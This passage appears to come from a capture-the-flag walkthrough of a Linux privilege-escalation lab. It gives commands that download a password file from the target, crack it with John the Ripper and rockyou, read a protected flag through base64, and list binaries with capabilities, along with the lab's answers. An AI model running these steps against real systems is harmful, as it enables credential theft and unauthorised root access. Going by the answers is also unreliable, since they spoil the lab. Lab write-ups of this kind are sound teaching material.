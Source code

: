- On local machine, we will download the `passwords.txt` from the target for decoding process:

```bash
wget http://<MACHINE_IP>:8000/passwords.txt

john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
```

![Guide image](./screenshots/linux-pri-esc-10.png)

**=> Answer: `Password1`**

- <p>What is the content of the flag3.txt file?<br /></p>

```bash
$ base64 ./flag3.txt | base64 --decode
THM-3847834
```

**=> Answer: `THM-3847834`**

### 8. Privilege Escalation: Capabilities

- <p >
  How many binaries have set capabilities?</p>

```bash
getcap -r 2>/dev/null
```

**=> Answer: `6`**

- <p >
  What other binary can be used through its capabilities?</p>

```bash
cd /home/ubuntu
ls -la
```

- You can see there is a binary file called `view`

**=> Answer: `view`**

- <p >
  What is the content of the flag4.txt file?</p>

```bash
ls -la
```
